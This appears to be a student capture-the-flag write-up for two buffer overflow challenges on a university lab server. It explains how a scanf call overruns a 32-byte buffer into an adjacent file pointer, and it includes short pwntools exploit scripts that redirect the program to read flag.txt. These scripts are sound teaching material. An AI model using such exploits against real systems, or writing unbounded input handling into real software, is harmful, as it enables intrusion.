


# Buffer Overflow - Challenge 1

## Introduction 

When connecting to a Linux server listening on the port 4003 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4003 or using the exploit-example.py script given to us.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

If we simply run the program, it prints out an ASCII image that is a reference to the 'Rick and Morty' show, beacuse it reads the 'mem.txt' file.

We are give a main.c file that has the source code of the program that is already compiled and that is given to us to test our exploit before putting it in action in the server.

This program has a buffer overflow because the scanf function is used like this:

```c
scanf("%40s", buffer);
```

This means that the program will read 40 characters from the input and store them in the buffer variable. However this variable has only 32 bytes of space allocated to it, which means that if we write more than 32 characters, we will be writing in the memory that is after the buffer variable, which is occupied by the variable 'meme_file' that is a pointer to a file. 
This pointer is currently pointing to the mem.txt and we need to make it point to the flag.txt file.


## Solution

We can simply write 32 characters and then write the path to the flag.txt file, which is 'flag.txt', since we know it is in the working directory.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"12345678901234567890123456789012flag.txt")
r.interactive()
```
And we get this flag: 



# Buffer Overflow - Challenge 2

## Introduction 

When connecting to a Linux server listening on the port 4000 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4000 or using the exploit-example.py script given to us.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

The initial situation is similar to challenge 1 but this time we need to work a bit harder to achieve our goal: a buffer overflow of a scanf function, but we will be using text format this time.

This time, the source code has a 'val' variable that has to be a specific value for the file to be read:

```c
if(*(int*)val == 0xfefc2324) 
```
This condition makes it harder to get the contents of the 'flag.txt' file.

## Solution

To get the contents of the file we want, we fill the 32 bytes of the buffer with whatever we want, then for the 4 bytes of the 'val' variable, we need to write these in reverse order, since it the values are written in a bottom-up stack. Finally the last bytes correspond to the address of the meme_file variable and there we write 'flag.txt'.

We write this input in the python script:

```python
 #!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"0" * 32 + b"\x24\x23\xfc\xfe" + b"flag.txt")
r.interactive() 
```

And we get our flag:




